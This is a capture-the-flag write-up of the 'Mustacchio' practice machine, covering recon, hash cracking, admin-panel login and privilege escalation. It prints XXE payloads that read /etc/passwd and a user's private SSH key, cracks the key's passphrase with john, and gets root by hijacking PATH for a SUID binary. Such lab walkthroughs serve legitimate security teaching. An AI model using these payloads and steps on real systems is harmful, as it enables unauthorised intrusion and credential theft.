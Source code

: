 ### Mustachio

Easy boot2root Machine

## Recon

As at the beginning of every hack we need to collect information and I started with NMap using the command ```nmap -sV -sC mustachio.thm -p-``` and got this answer:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After that I went to the site to get my first impressions and in the meantime I left Dirsearch running using the command ```dirsearch -w /usr/share/wordlists/dirb/big.txt -u mustachio.thm```.

![](Screenshot_1.png)

When I looked at the terminal that was running Dirsearch it brought me this:

```
[22:13:19] 301 -  303B  - /custom  ->  http://ctf.thm/custom/   
[22:13:36] 301 -  302B  - /fonts  ->  http://ctf.thm/fonts/   
[22:13:48] 301 -  303B  - /images  ->  http://ctf.thm/images/
[22:14:35] 200 -   28B  - /robots.txt                     
[22:14:40] 403 -  272B  - /server-status  
```

In the Custom folder I found a file called "user.bak" in mustachio.thm/custom/js

![](Screenshot_2.png)

I downloaded the file and opened a terminal in the Downloads folder and typed the command ```strings user.bak```. Inside the file I found a username called admin and a password in hash format. So I used crackstation.net to crack the password and this was the result:

## Vulnerability Analysis and Exploration

![](Screenshot_3.png)

Wow! We managed to crack the hash and get the password, we are on the right path. Let's keep it there because we'll be using it in the future.
I explored the other directories that I found with Dirsearch but I didn't find anything interesting. Then I went to HTTP port 8765 and took the opportunity to use Dirsearch on it too:

![](Screenshot_4.png)

Now we find an admin panel and we can use the credentials found on port 80.

![](Screenshot_5.png)

Yes! We managed to get into the admin panel, now we need to take a look at this panel and find out its functions.
Well, after a while of looking for something in the admin panel I ended up intercepting the request I made to the server when I wrote something in the comments part. So I decided to look at the request response and found this:

![](Screenshot_6.png)

Wow! We found another file on the web, let's download it and see what's in it.

```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

We found a message that was written in XML, what's the flaw using XML ? Are you thinking the same thing as me? Yes XXE is the fault, I'm already happy to get to that part lol. I applied the same message and gave this result:

![](Screenshot_7.png)

Well, we saw above that there was a message telling Barry that his SSH key was ready, when I got this username I tried to crack his SSH password but it gave this result: ```[ERROR] target ssh: //mustachio.thm:22/ does not support password authentication (method reply 4).```.

So I tried to log in using SSH and this error came up: ```barry@mustachio.thm: Permission denied (publickey).```.

So we need an id_rsa.pub to get one of the first steps to access the system, well let's enumerate more users, I will use a payload of XXE to get /etc/passwd.

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<comment>
<name>Joe</name>
<author>MrEmpy</author>
<com>&file;</com>
</comment>
```

![](Screenshot_8.png)

Yes! We were able to enumerate the users, so we have 3 users root, joe, barry. We'll save them for future exploration. Well now that I know the users I'm going to try to get the id_rsa.pub starting with the user Barry.

![](Screenshot_9.png)

Good we got it, I tried it with the user Joe but I wasn't successful. Now copy id_rsa.pub and paste it into your id_rsa.pub on your system. Example: ```echo "<target id_rsa.pub> >> /root/.ssh/id_rsa.pub``` or with Kali user ```echo "<target id_rsa.pub> >> /home/kali/ .ssh/id_rsa.pub```.

Well, since Barry has an id_rsa.pub he probably has an id_rsa too. So let's try to get his RSA.

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
<!ENTITY file SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
<name>Joe</name>
<author>MrEmpy</author>
<com>&file;</com>
</comment>
```

![](Screenshot_10.png)

Yes! We got id_rsa and id_rsa.pub, id_rsa just this half pie more than to fix it, it just has to look like this model:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
(...)
```

There we fixed the id_rsa. Copy and paste it into your folder and allow it using the command ```chmod 600 <id_rsa>``` and now let's try to log into the machine with the command ```ssh -i <id_rsa> barry@mustachio.thm ```.

Well here is asking for a key password. We have to crack this id_rsa and figure out the password, so let's use the ssh2john.py tool, you can find it by typing the command ```locate ssh2john.py``` but if it doesn't exist you will need to download the John tool first.

Now I'm going to turn id_rsa into a bunch of characters that only John understands for us to crack the password. Run these commands:

```
/usr/share/john/ssh2john.py <id_rsa> > john.txt

john --wordlist=/usr/share/wordlists/rockyou.txt john.txt
```

Good! We managed to crack the RSA password! Now just log in with the command ```ssh -i <id_rsa> barry@mustachio.thm```. It's asking for password so let's put in the password we got.

## Post Exploitation
![](Screenshot_11.png)

Wow we are in the system! That's really good! Now just get the user.txt flag.

Now we need to escalate privilege to become root, let's go to the home/joe folder. It has a file called live_log and if we type ```ls -la live_log``` we will see this ```-rwsr-xr-x 1 root root 16832 Jun 12 15:48 live_log```.
This indicates that this file has SUID and can be used to scale privileges, since if we run this file with just the ```./live_log``` command we will be running it with ROOT.

When I looked at this file I thought of typing ```strings live_log``` and found something interesting in it:

![](Screenshot_12.png)

Observing this I saw that it was a command so I copied the command and tried to run it with the user Barry but it gave Permission Denied, this is more proof that when we run a file that has rwsr we are running as root.

When I saw this I quickly remembered TryHackMe's Kenobi room:

![](Screenshot_13.png)

I saw that we could change the tools folder from /usr/bin and a custom one like /tmp/attacker and create our own tool like the tail that was mentioned inside live_log. What if we change /usr/bin to /tmp/attacker and create a tool called tail and put a shell inside it? Does it work? Let's test it, first let's create a folder inside /tmp called attacker ```mkdir /tmp/attacker``` and then go into it.
Now let's change the /usr/bin folder to /tmp/attacker using the command ```export PATH=/tmp/attacker:$PATH```.

Now we're going to create the tail file, let's add this to it:

```echo '#!/bin/bash' > tail```

```echo '/bin/bash' >> tail```

After that let's type ```chmod +x tail```. Now let's go back to the live_log folder and let's run it.

![](Screenshot_14.png)

GG! Yes! We managed to hack the machine and get the root.txt flag. And so we finished another CTF. It is very rewarding to be able to hack a machine.

Thanks for reading my Writeup, I have a YouTube channel if you can subscribe it will help me a lot
https://www.youtube.com/channel/UCol7qlIUc0o0JKmdrmTWQtA

To the next :)
